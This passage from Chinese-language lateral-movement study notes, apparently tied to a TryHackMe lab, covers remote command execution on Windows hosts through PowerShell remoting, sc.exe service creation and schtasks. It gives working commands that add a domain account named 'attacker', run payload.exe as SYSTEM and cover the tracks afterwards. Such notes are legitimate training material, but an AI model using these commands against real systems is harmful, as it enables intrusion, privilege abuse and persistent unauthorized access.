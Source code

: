         - **使用 PowerShell**:
            
            PowerShell
            
            ```
            # 1. 创建凭证对象
            $cred = New-Object System.Management.Automation.PSCredential 'Administrator', (ConvertTo-SecureString 'Password' -AsPlainText -Force)
            
            # 2. 建立交互式会话
            Enter-PSSession -ComputerName <TARGET_IP> -Credential $cred
            
            # 3. 或执行单个命令
            Invoke-Command -ComputerName <TARGET_IP> -Credential $cred -ScriptBlock { whoami }
            ```
            
- **通过远程服务 (Via Remote Services - `sc.exe`)**:
    
    - **端口 (Ports)**: 135/TCP, 49152-65535/TCP (DCE/RPC); 445/TCP (RPC over SMB)
    - **所需权限 (Required Permissions)**: 管理员权限。
    - **工作原理 (How it Works)**: 使用内置的 `sc.exe` 工具通过 RPC 远程连接到服务控制管理器，创建一个配置为执行任意命令的服务，然后启动该服务。这是一个“盲”执行，无法直接看到命令输出。
    - **命令示例 (Example Commands)**:
        
        Bash
        
        ```
        # 创建服务，binPath 指向要执行的命令
        sc.exe \\<TARGET_IP> create THMservice binPath= "net user attacker Pass123 /add /domain"
        # 启动服务
        sc.exe \\<TARGET_IP> start THMservice
        # 清理
        sc.exe \\<TARGET_IP> stop THMservice
        sc.exe \\<TARGET_IP> delete THMservice
        ```
        
- **通过计划任务 (Via Scheduled Tasks - `schtasks.exe`)**:
    
    - **端口 (Ports)**: 与 `sc.exe` 相同 (RPC)。
    - **所需权限 (Required Permissions)**: 管理员权限。
    - **工作原理 (How it Works)**: 使用内置的 `schtasks.exe` 工具在远程主机上创建一次性任务，然后立即运行它。这也是一种“盲”执行。
    - **命令示例 (Example Commands)**:
        
        Bash
        
        ```
        # 创建一个一次性任务
        schtasks /s <TARGET_IP> /RU "SYSTEM" /create /tn "THMtask" /tr "payload.exe" /sc ONCE /sd 01/01/1970 /st 00:00
        # 立即运行任务
        schtasks /s <TARGET_IP> /run /tn "THMtask"
        # 清理
        schtasks /s <TARGET_IP> /delete /tn "THMtask" /f
        ```
        